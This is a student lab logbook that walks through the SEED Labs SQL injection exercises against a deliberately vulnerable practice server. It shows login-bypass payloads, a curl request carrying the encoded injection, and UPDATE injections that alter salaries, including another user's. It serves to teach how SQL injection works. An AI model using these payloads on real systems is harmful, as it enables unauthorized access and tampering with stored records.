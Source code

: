 # LogBook8_9

## SEED Labs – SQL Injection Attack Lab

### Task 1

To print all the profile information of Alice, we ran the following SQL code:
```sql
SELECT * FROM credential WHERE name='Alice';
```
The image below shows what was returned:
![Profile Information of Alice](images/seedlabs-sql/task1.png)

### Task 2

#### 2.1

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```
Since we have an insight of the SQL code, we can insert in the username input box `' OR name='admin'#`.

This results in a query like this:

```php
<?php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= '' OR name='admin'";# and Password='$hashed_pwd'";
?>
```

This will close the name variable which will be `''` and add an `OR` operator with with the name as the person we want to personate (admin). The `#` symbol is here so that we can comment all sql code in front of our code, namely the password variable, which will not matter considering it is commented.  

Since we are already inside the name input, we could've also simply give it's name and comment the remaining code: `admin';#`.

This results in a query like this:

```php
<?php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name='admin'";# and Password='$hashed_pwd'";
?>
```


![Login from Webpage](images/seedlabs-sql/task2-1.png)

#### 2.2

Applying the same logic as in Task 2.1, but using the command line instead of utilizing in the web browser, we ran the following code:
```sh
curl ’www.seed-server.com/unsafe_home.php?username=%27%20OR%20name=%27admin%27%23&Password=’
```

![Login from CMD (1)](images/seedlabs-sql/task2-2.png)
![Login from CMD (2)](images/seedlabs-sql/task2-2-2.png)

#### 2.3
Looking at the source code, we discovered that mysqli plugin was being used.

```php
<?php
$conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
?>
```

From the documentation: `MySQL optionally allows having multiple statements in one statement string, but it requires special handling.Multiple statements or multi queries must be executed with mysqli::multi_query().`

Since we cannot use multiple queries with `mysqli::query()`, these types of attack cannot be done.

### Task 3

#### 3.1

After accessing Alice's profile and with the knowledge that column salary is in the same table as the other attributes from the the credential's table, we can write on a random input box (e.g. nickname) `', salary='999999`.

This results in the following:
```php
<?php
$sql = "UPDATE credential SET
        nickname='', salary='999999',
        email='$input_email',
        address='$input_address',
        Password='$hashed_pwd',
        PhoneNumber='$input_phonenumber'
        WHERE ID=$id;";
?>
```

![Modify own salary (1)](images/seedlabs-sql/task3-1.PNG)

![Modify own salary (2)](images/seedlabs-sql/task3-1-2.PNG)

#### 3.2

Using the same logic as above, we wrote on a random input box `',salary=1 WHERE name='Boby';#`. 
This will result in the following:

```php
<?php
$sql = "UPDATE credential SET nickname='', salary='1' WHERE name='Boby'";# , email='$input_email', address='$input_address',Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
?>
```

![Modify other's salary (1)](images/seedlabs-sql/task3-2.PNG)

![Modify other's salary (2)](images/seedlabs-sql/task3-2-1.PNG)
